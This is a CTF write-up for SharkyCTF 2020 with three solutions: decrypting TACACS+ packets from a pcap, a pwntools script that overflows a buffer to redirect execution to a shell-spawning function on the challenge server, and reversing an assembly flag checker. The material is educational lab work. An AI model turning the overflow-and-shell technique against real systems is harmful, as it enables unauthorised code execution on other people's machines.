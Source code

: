 +++
title = "Sharky 2020 CTF writeup"
date = 2020-05-10
description = "CTF writeup"
in_search_index = true

[taxonomies]
categories = ["Capture The Flag"]
tags = ["ctf","writeup"]
authors = ["Thanga Ayyanar"]
+++

SharkyCTF writeup

## Networking - RattataTACACS

* Challenge contains pcap file which contains tacacs+ encrypted packet which we need to decrypt to get the flag.
* The udp packets followed by tacacs contains the authentication details of user logged on to the cisco router.

<!-- more -->

{{ resize_image(path="SharkyCTF-2020/udpStreamFlowChase.png",class="imgmed") }}

* Authentication details are encrypted so i decrypted the type 7 password using the webite to obtain the **Decryption key**

{{ resize_image(path="SharkyCTF-2020/ImageDecryption.png",class="imgmed") }}

* Applying the decryption key for tacacs to wireshark to decrypt the packet (Perference -> Protocols -> Tacacs+).

{{ resize_image(path="SharkyCTF-2020/tacacsDecryption.png",class="imgmed") }}

* checking the encrypted packet we can get the flag

```
shkCTF{T4c4c5_ch4ll3n63_br0}
```

## Pwn - Give away 0

* Challenge contains a ELF 64 bit binary.
* statically analyzing binary help me to find it has **win** which executes /bin/sh (shell) so all we need to do is redirect the code to win function.
* Binary contains Buffer overflow vulnerability in vuln function so we are going to overflow the buffer and points the *instruction pointer* to win function.
* shell code written using *pwntools*.

```py3

from pwn import *
vuln=ELF('./0_give_away')

conn=remote('sharkyctf.xyz',20333)
conn.sendline(("A"*40).encode()+p64(vuln.symbols['win_func']))
conn.interactive()

```
* Run the code and **cat flag.txt** in the server.
```
shkCTF{#Fr33_fL4g!!_<3}
```

**Note**: When you are writting shell code in python3 remember to convert the string to bytes inorder to combine JUNK + ADDR

## Reverse - Simple

* Challenge contains asm file.
```asm
BITS 64

SECTION .rodata
	some_array db 10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24
	the_second_array db 0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf
	len_second_array equ $ - the_second_array
SECTION .text
    GLOBAL main

main:
	mov rdx, [rsp]
	cmp rdx, 2 # two arguments
	jne exit
	mov rsi, [rsp+0x10] # get the first argument
	mov rdx, rsi
	mov rcx, 0
l1:
	cmp byte [rdx], 0 # Strlen function, the length is stored in rcx 
	je follow_the_label
	inc rcx
	inc rdx
	jmp l1
follow_the_label: # Array are compard from last to first
	mov al, byte [rsi+rcx-1] # rsi contains the input value
	mov rdi,  some_array 
	mov rdi, [rdi+rcx-1] # get the particular value of some_array to rdi
	add al, dil  # dil -> lower 8 bit of rdi, add it the al register
	xor rax, 42
	mov r10, the_second_array
	add r10, rcx
	dec r10
	cmp al, byte [r10]
	jne exit
	dec rcx
	cmp rcx, 0
	jne follow_the_label
win:#Return 0 function
	mov rdi, 1
	mov rax, 60
	syscall
exit:
	mov rdi, 0
	mov rax, 60
	syscall

```
* we need to find the input so that this program will return 1.
* The above program gets input string and compare it with the second_array.
* Before comparing, the value in input are added with some array and XORed with 42(0x2a in hex).
* I have written python program to do the above thing in reverse to obtain the input which is the flag.
* Included all the reference material that i used to solve the challenge are linked below in Resources section.

* Solution
```py3
sub_array=[10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24]
encode_array=[0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf]

for i in range(len(sub_array)):
    xored_value = encode_array[i] ^ 0x2a
    final_value = xored_value - sub_array[i]
    print(chr(final_value),end='')
```
* Flag obtained
```
shkCTF{h3ll0_fr0m_ASM_my_fr13nd}
```

## Resources:

### Reference for tacacs

* (How to decrypt tacacs using wireshark)[https://www.youtube.com/watch?v=eaasnPU9IaA]

### Materials used for reversing simple 

1)https://stackoverflow.com/questions/1753602/what-are-the-names-of-the-new-x86-64-processors-registers

```
64-bit register | Lower 32 bits | Lower 16 bits | Lower 8 bits
==============================================================
rax             | eax           | ax            | al
rbx             | ebx           | bx            | bl
rcx             | ecx           | cx            | cl
rdx             | edx           | dx            | dl
rsi             | esi           | si            | sil
rdi             | edi           | di            | dil
rbp             | ebp           | bp            | bpl
rsp             | esp           | sp            | spl
r8              | r8d           | r8w           | r8b
r9              | r9d           | r9w           | r9b
r10             | r10d          | r10w          | r10b
r11             | r11d          | r11w          | r11b
r12             | r12d          | r12w          | r12b
r13             | r13d          | r13w          | r13b
r14             | r14d          | r14w          | r14b
r15             | r15d          | r15w          | r15b
```

2)https://stackoverflow.com/questions/30528091/whats-the-asm-equivalent-of-replacing-a-char-from-a-string-to-a-char-of-another

```
section .text
    global _ft_strcat

_ft_strcat:
    mov rax, rdi
    mov rbx, rsi

loop_s1:
    cmp byte[rax], 0
    jz copy_str
    inc rax
    jmp loop_s1

copy_str:                   #( Helped me to solve simple )
    cmp byte[rbx], 0
    jz end
    mov byte[rax], byte[rbx]
    inc rax
    inc rbx
    jmp copy_str

end:
    mov byte[rax], 0
    ret
```

### Materials used for shellcoding

* [Possible way to send string to stack x86](https://illegalbytes.com/2018-02-25/two-ways-to-pass-data-to-your-shellcode/)
* [String Encoding in Python for shellcoding](https://gist.github.com/offlinemark/5be8375ba28d5b7dd2d0)
* [x86 cheatsheet](https://www.bencode.net/blob/nasmcheatsheet.pdf)
* [Intel reference](https://software.intel.com/content/www/us/en/develop/articles/introduction-to-x64-assembly.html)
